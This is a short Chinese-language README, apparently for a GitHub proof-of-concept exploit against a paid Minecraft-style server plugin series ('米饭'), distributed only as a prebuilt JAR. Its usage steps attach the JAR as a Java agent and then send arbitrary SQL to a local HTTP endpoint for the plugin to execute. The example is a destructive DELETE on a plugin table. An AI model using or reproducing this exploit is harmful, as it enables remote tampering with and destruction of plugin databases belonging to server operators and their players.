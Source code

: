 # 米饭系列 插件远程SQL执行 漏洞利用
#### 为保护作者权益 本项目 无法直接构建,需使用者请使用 JAR文件。并且 本项目 并不破解米饭验证功能，不验证 任然 无法使用 限制功能。

### 使用方法

1. 将该 JAR 放置到有米饭插件的服务端目录
2. 增加 `-javaagent:Rice-CloudSQL-POC-1.0-SNAPSHOT.jar`<br>
例如: `java -javaagent:Rice-CloudSQL-POC-1.0-SNAPSHOT.jar java.jar`
3. 启动服务端
4. 使用`http://127.0.0.1:8080/api/public/db/fake?sql={自定义SQL字符串}`<br>
例如: `http://127.0.0.1:8080/api/public/db/fake?sql=DELETE /*{对应米饭插件的表(例如: guild_spawn_pvp_location)}*/ FROM guild_spawn_pvp_location`
5. 等待插件从服务端读取SQL并执行